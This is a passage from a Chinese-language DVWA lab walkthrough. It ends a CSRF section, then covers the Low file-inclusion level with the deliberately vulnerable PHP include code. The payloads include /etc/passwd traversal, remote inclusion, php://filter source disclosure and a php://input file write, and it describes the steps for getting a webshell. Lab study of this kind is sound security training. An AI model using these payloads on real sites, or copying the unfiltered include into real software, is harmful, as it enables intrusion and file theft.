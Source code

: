 这里相对于 High 级别主要就是增加了输入当前密码的选项，这个在实战中还是一种比较主流的防护方式，攻击者不知道原始密码的情况下是无法发起 CSRF 攻击的，另外常见的防护方法还有加验证码来防护。

##  文件包含

###  Low

```php
<?php
$file = $_GET[ 'page' ];

if( isset( $file ) )
    include( $file );
else {
    header( 'Location:?page=include.php' );
    exit;
}
?>
```

问题：page 参数没有任何过滤，然后直接被 include 包含进来，造成文件包含漏洞的产生。

1.文件读取

```php
?page=/etc/passwd
?page=../../../../../../../../../etc/passwd   目录穿越
```

2.远程文件包含

```
?page=http://www.baidu.com/robots.txt
```

3.远程文件getshell

>在自己云服务器上写一个小马，然后直接远程文件包含

4.本地文件getshell

>本地写一个一句话木马，然后文件上传模块上传后得到路径，直接包含。

5.伪协议

- php://filter 文件读取

```php
/fi/?page=php://filter/read=convert.base64-encode/resource=index.php
/fi/?page=php://filter/convert.base64-encode/resource=index.php
```

此时会拿到 base64 加密的字符串，解密的话就可以拿到 index.php 的源码

- php://input getshell

POST 内容可以直接写 shell ，内容如下：

```php
<?php fputs(fopen('info.php','w'),'<?php phpinfo();?>')?>
```
